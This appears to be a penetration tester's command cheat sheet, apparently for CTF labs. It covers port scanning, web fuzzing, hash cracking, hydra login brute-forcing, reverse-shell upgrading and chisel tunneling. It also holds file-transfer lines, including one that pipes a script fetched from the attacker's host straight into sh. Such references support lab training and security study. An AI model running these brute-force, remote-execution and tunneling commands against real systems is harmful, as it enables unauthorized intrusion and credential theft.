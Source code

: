 # Common Commands I Use Frequently (In no particular order)

## Enumeration
### Port Scanning
- `IP=x.x.x.x`
- `sudo masscan -p1-65535 $IP --rate=1000 -e tun0 > ports`
- `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
- `nmap -Pn -sVC -vv -p$ports $IP`
### Web Directory Fuzzing
- `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://xxxxxx.xxx/FUZZ -fc 404,400`
### VHost Fuzzing
- `ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u https://test.url -H "Host: FUZZ.test.url"`
### Things to do on the Target Machine Once you Have a Foothold
- List listening ports on the machine `ss -ltn`
- List all files and folders including hidden ones in a directory `ls al`
- See if there is anything the current user can run as sudo `sudo -l`

## Encryption/Decryption
### PGP
- Add an encryption key you've found to the keyring `gpg --import x.key`
- Use aforemntioned key to decrypt a file `gpg x.pdf.gpg`
### SSH
- Generate SSH keys for a user `ssh-keygen -f username`
### Hash Cracking
- Crack a MD5(APR) hash `hashcat -a 0 -m 1600 ./hash /usr/share/wordlists/rockyou.txt`

## Login Brute Forcing
### FTP
- Use lists created by RoomPrepper (The createLists.sh script takes the users and passwords from the notes.md file and creates these lists) `hydra -L user.lst -P password.lst ftp://x.x.x.x`
### SSH
- Use lists created by RoomPrepper (The createLists.sh script takes the users and passwords from the notes.md file and creates these lists) `hydra -L user.lst -P password.lst ssh://x.x.x.x -t 4 -vV`
### Web
- Using hydra with a captured request using the format `hydra -l <username> -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'`\
so an example command is as follows `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.174.201 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=c7UvYlF%2FOoYdanjSx3HqFGCZ9ktcaqHpKyHHiKbVfNezx4JX%2BkvSkLj9IH9GbWF4z41mnESai4vX%2FkWm576GotEhS3W66Cvoz9as16iMPgK0d6yqjJHRpODyonGR2%2Fp3%2FIM8LcN%2Fr5X7zNiaYMnBzEAjp8eFYgBqjCVyUgoP2v7tqlHu&__EVENTVALIDATION=PknlTsjoXO2tIIQR4GG4BnQkewRFwQjxfpAKT06eOvI%2FL%2F07msVZ7JUQ4nBX7RAnbfZRdZ2%2B4gUl2BdBAuoEtbsQww69pvT2jUbpA%2F00YfgzuX8de4fjki4HfD4SDig3jJjMjZoQBLYOdW2Y%2B8W%2FTf17Bdd0hRBOzS%2BpvBmRWe0UIBx7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv`
- Using hydra with some parameters instead of the entire login request example `hydra -l milesdyson -P log1.txt 10.x.x.x http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user`
- Using hydra to brute force a basic auth page `hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -s 80 -f enum.thm http-get /labs/basic_auth`

## Upgrade Reverse Shell (To one that has autocomplete and won't be killed by Ctrl^C etc.)
### Using Python
1. In reverse shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. Press CTRL^Z to put the reverse shell in the background
3. In the host terminal (It should be at this stage now when the reverse shell has been backgrounded) `stty raw -echo; fg`
4. In the reverse shell that has now been foregrounded `echo TERM=xterm-256color` followed by `reset` if required

## Find files
### Find Command
- `find / 2>/dev/null | grep desired_word`

## Tunneling
### SSH
- Open an SSH session where all traffic to port 1111 on the target machine is forwarded to port 1111 on the attacking machine `ssh user@x.x.x.x -L 1111:localhost:1111`
### Chisel
1. Transfer chisel binary to target
2. Start chisel server on attacker machine `chisel server --reverse --port 9001`
3. On the target run `chisel client 10.x.x.x:9001 R:2049:127.0.0.1:2049`

## Facilitation of File Transfers Between Attacker and Target
### Python web server
1. Start a simple web server from current working directory `python3 -m http.server 8000`
  - Download a file from aforementioned simple web server `wget http://10.x.x.x:8000/revsh.php` or `curl -O http://10.x.x.x:8000/chisel`
  - Run a file from aforementioned simple web server `curl http://10.x.x.x:8000/linpeas.sh | sh`
